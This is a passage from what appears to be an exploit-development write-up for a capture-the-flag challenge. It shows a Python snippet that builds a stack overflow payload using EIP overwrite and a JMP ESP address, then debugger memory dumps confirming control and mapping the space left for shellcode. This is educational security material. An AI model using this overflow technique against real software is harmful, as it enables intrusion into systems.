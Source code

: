``` python

command  = ""
command += "A" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += "\xCC\xCC\xCC\xCC"
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
```

Execution of this script gives us the following:

![EIP control](/uploads/2014/03/03-eip-control.png)

"Wonderful", as [muts][] would say. We can see that `ESP` contains the breakpoint instructions and the first of those instructions has been hit, which indicates that our `EIP` overwrite worked and we now have control.

## Getting a shell

If it isn't already clear, we don't really have that much space to play in. Our shellcode space starts at `266`, ends at `365` and has a 4-byte block taken out of the middle of it which contains the `EIP` overwrite and another 4 bytes tucked away between `ESP` and `EIP`. It doesn't leave us with much given how things are broken up. The area we have for shellcode looks like this:

``` txt
00B5FF94   00000000  ....
00B5FF98   00000000  ....
00B5FF9C   42424242  BBBB  <-- block 2 start --
00B5FFA0   42424242  BBBB
00B5FFA4   42424242  BBBB
00B5FFA8   42424242  BBBB
00B5FFAC   42424242  BBBB
00B5FFB0   42424242  BBBB
00B5FFB4   42424242  BBBB  --  block 2 end -->
00B5FFB8   7E4456F7  ÷VD~  USER32.7E4456F7
00B5FFBC   43434343  CCCC  <-- tucked away bytes -->
00B5FFC0   CCCCCCCC  ÌÌÌÌ  <-- block 1 start (entry point) --
00B5FFC4   45454545  EEEE
00B5FFC8   45454545  EEEE
00B5FFCC   45454545  EEEE
00B5FFD0   45454545  EEEE
00B5FFD4   45454545  EEEE
00B5FFD8   45454545  EEEE
00B5FFDC   45454545  EEEE  Pointer to next SEH record
00B5FFE0   45454545  EEEE  SE handler
00B5FFE4   45454545  EEEE
00B5FFE8   45454545  EEEE
00B5FFEC   45454545  EEEE
00B5FFF0   45454545  EEEE
00B5FFF4   45454545  EEEE
00B5FFF8   45454545  EEEE
00B5FFFC   00454545  EEE.   -- block 1 end -->
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux